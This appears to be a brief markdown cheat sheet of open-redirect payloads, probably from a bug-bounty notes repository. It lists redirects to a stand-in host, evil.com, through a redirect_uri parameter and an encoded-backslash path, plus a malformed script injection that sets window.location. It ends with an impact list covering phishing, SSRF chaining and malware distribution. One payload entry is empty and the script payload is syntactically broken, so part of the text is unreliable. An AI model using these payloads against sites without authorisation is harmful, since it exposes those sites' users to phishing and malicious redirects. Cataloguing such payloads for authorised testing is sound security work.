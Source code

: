 # open redirect


1 - payload: {evil.com} 

===>>> example: site.com/.../redirect_uri=evil.com/...

2 - payload: {///%5Cevil.com/} 

===>>> example: site.com///%5Cevil.com/ 

3 - payload:  </script>window.location"http://evil.com"</script>

===>>> example: search box : injection

4 - payload:

===>>> example:

impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
- 
